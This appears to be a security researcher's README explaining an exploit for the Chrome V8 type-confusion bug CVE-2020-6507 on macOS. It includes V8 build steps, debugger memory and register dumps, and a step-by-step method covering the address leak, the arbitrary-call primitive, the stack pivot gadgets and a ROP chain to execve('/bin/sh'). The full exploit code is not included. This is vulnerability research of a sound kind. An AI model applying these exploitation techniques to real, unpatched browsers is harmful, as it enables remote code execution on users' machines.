

# Chrome RCE CVE-2020-6507 on macOS

**Target OS:** macOS 11.2.1  
**V8 Version:** 8.5.51  
**V8 Commit:** 64cadfcf4a56c0b3b9d3b5cc00905483850d6559

## Vulnerability Overview

During an optimization phase in the V8 JIT compiler (TurboFan) it is possible to trigger a type confusion on an JSArray array length leading to an out of bounds read/write using the corrupted JSArray. Additional details around the root cause can be located [here](https://bugs.chromium.org/p/project-zero/issues/detail?id=2046) and [here](https://www.elttam.com/blog/simple-bugs-with-complex-exploits/#turbofan).

## Building V8 for macOS

* Install depot_tools
* fetch v8
* git checkout version (v8 commit)
* gclient sync
* build
	* ninja -C ./out.gn/x64.release *# Release version*
	* ninja -C ./out.gn/x64.debug *# Debug version*

**Note:** Modify the `./build/mac/find_sdk.py` to ensure the V8 locates and compiles with the correct macOS SDK. 

The following line should be corrected to:

```
sdks = [re.findall('^MacOSX(\d+\.\d+)\.sdk$', s) for s in os.listdir(sdk_dir)]
```

You can find the most updated `find_sdk.py` using the Chromium Code Search tool located [here](https://source.chromium.org/chromium/chromium/src/+/master:build/mac/find_sdk.py?q=find_sdk.py&ss=chromium).


## Exploit Overview

During exploitation, when creating a **VERY** (`0x414141414141`) large allocation of an ArrayBuffer, V8 would allocate on a very low heap address for the BackingStore in order to hold such a large allocation. While abusing the out of bounds read/write of the corrupted array length, it was found that at 0x8 past the bounds of the array, a very similar address was discovered. This address would always be - 0x100000000 of the the large ArrayBuffer's BackingStore pointer. By adding 0x100000000 to the leaked address (offset 0x8), it is possible to reliability locate the large ArrayBuffer's BackingStore pointer. 

```
[*] Triggering JIT Optimization
[*] OOB.length = 0x12121212
[*] Searching...
0x0000000000000000
0x0000000000000000
0x0000000000000000
0x0000414141414151
0x0000414145414151
0x0000414141414151
0x0000000000000000
0x0000000100a15673
0x000016c200000000 <--- LEAKED TARGET ADDRESS (+ 0x100000000)
0x00007ffeefb088d0
0x00007ffeefb088d0
0x00007ffeefb088d0
0x00007ffeefb088d0
0x0000000000000000
0x0000000000000000
0x000016c208040121
0x000016c20804021d
0x000016c208040245
0x000016c20804026d
0x000016c20804030d
DebugPrint: 0x16c2082231d5: [JSArrayBuffer] in OldSpace
 - map: 0x16c208241189 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x16c20820792d <Object map = 0x16c2082411b1>
 - elements: 0x16c2080406e9 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - backing_store: 0x16c300000000 <--- TARGET ARRAY BUFFER BACKING STORE
 - byte_length: 71748523475265
 - detachable
 - properties: 0x16c2080406e9 <FixedArray[0]> {}
 - embedder fields = {
    0, aligned pointer: 0x0
    0, aligned pointer: 0x0
 }
0x16c208241189: [Map]
 - type: JS_ARRAY_BUFFER_TYPE
 - instance size: 56
 - inobject properties: 0
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x16c20804030d <undefined>
 - prototype_validity cell: 0x16c208180451 <Cell value= 1>
 - instance descriptors (own) #0: 0x16c2080401b5 <DescriptorArray[0]>
 - prototype: 0x16c20820792d <Object map = 0x16c2082411b1>
 - constructor: 0x16c20820785d <JSFunction ArrayBuffer (sfi = 0x16c208188131)>
 - dependent code: 0x16c2080401ed <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0
```

Using this information, it was possible to create a reliable primitive. At offset 778 past the corrupted array, contained a controlled pointer to the `Builtins_InterpreterEntryTrampoline` function and then a `call`. Since `r15` was a controlled value, and `8*r11` were used to index the address of `r15`, it was possible to create an arbitrary `call` primitive by supplying `r15` with a controlled address (offset 778). This address would be the BackingStore pointer of the large ArrayBuffer. Once the value of `[r15 + 8*r11]` was moved into `rcx`, `rcx` will be called with a controlled address. By pointing `rcx` back into an index of the controlled ArrayBuffer's BackingStore, `rcx` can be used to kick off a ROP chain to execute `/bin/sh`.

```
Process 18524 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=EXC_I386_GPFLT)
    frame #0: 0x0000000100a1e94f d8`Builtins_InterpreterEntryTrampoline + 207
d8`Builtins_InterpreterEntryTrampoline:
->  0x100a1e94f <+207>: mov    rcx, qword ptr [r15 + 8*r11]
    0x100a1e953 <+211>: call   rcx
    0x100a1e955 <+213>: mov    r14, qword ptr [rbp - 0x18]
    0x100a1e959 <+217>: movsxd r9, dword ptr [rbp - 0x20]
```

```
(lldb) register read
General Purpose Registers:
       rax = 0x00000fb30804030d
       rbx = 0x000000000000005e
       rcx = 0x0000000100d05a48  d8`v8::internal::interpreter::Bytecodes::kBytecodeSizes + 728
       rdx = 0x0000000000000082
       rdi = 0x00000fb308213891
       rsi = 0x00000fb308213805
       rbp = 0x00007ffeefbfec90
       rsp = 0x00007ffeefbfec18
        r8 = 0x00000fb3082137e1
        r9 = 0x0000000000000b8a
       r10 = 0x0000000000000003
       r11 = 0x0000000000000026
       r12 = 0x0000000000000004
       r13 = 0x00000fb300000000
       r14 = 0x00000fb308212aed
       r15 = 0x4141414141414000
       rip = 0x0000000100a1e94f  d8`Builtins_InterpreterEntryTrampoline + 207
    rflags = 0x0000000000010202
        cs = 0x000000000000002b
        fs = 0x0000000000000000
        gs = 0x0000000000000000
```

By utilizing additional addresses leaked using the corrupted array, it was possible to resolve addresses of additional dylibs needed to create the ROP chain. The following dylibs were leaked and resolved. 

```
libc++.dylib
libsystem_kernel.dylib
libsystem_platform.dylib
```

Finally, utilizing a series of ROP, COP & JOP gadgets, it was possible to pivot the stack back into the controlled ArrayBuffer's BackingStore to execute a ROP chain to `execve()` to execute `/bin/sh`.

**Stack Pivot:**

```
mov rdi, r15 call __simple_sappend
mov rsp, qword [rdi+0x48]; mov rbp, qword [rdi+0x40]; xor eax, eax; jmp qword [rdi+0x90]
```

**Code Execution:**



## Conclusion

I thought this was a very interesting way to exploit this vulnerability in V8 as I have not seen this exploitation method used before. Even more interesting, code execution was achieved while only utilizing a relative read/write primitive. 
